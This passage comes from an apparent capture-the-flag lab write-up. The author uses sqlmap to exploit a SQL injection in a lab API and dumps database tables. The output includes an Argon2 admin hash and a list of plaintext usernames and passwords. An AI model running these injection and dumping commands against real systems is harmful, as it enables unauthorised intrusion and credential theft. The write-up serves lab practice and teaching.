 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# cat /root/.local/share/sqlmap/output/api.vulnnet.thm/dump/vn_admin/be_users.csv
username,password
chris_w,"$argon2i$v=19$m=65536,t=16,p=2${Redacted}"

┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# cat chris_w.hash                                                               
$argon2i$v=19$m=65536,t=16,p=2${Redacted}
```

Hmm... Argon2 hash. I tried to crack it via `john` with `rockyou` wordlist, but no dice.

Let's enumerate database `blog` then.

**Enumerate database `blog`'s table names:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbms=mysql -D blog --tables
[...]
Database: blog
[4 tables]
+------------+
| blog_posts |
| details    |
| metadata   |
| users      |
+------------+
```

Table `users`? That's odd.

**Enumerate database `blog` table `users`'s column names:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbms=mysql -D blog -T users --columns
[...]
Database: blog
Table: users
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(11)     |
| password | varchar(50) |
| username | varchar(50) |
+----------+-------------+
```

**Extract `username` and `password` data:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-Endgame]
└─# sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbms=mysql -D blog -T users -C username,password --dump
[...]
+--------------------+---------------------+
| username           | password            |
+--------------------+---------------------+
| lspikinsaz         | D8Gbl8mnxg          |
| profeb0            | kLLxorKfd           |
| sberrymanb1        | cdXAJAR             |
| ajefferiesb2       | 0hdeFiZBRJ          |
| hkibblewhiteb3     | 6rl6qXSJDrr         |
| dtremayneb4        | DuYMuI              |
| bflewinb5          | fwbk0Vgo            |
| kmolineuxb6        | 92Fb3vBF5k75        |
```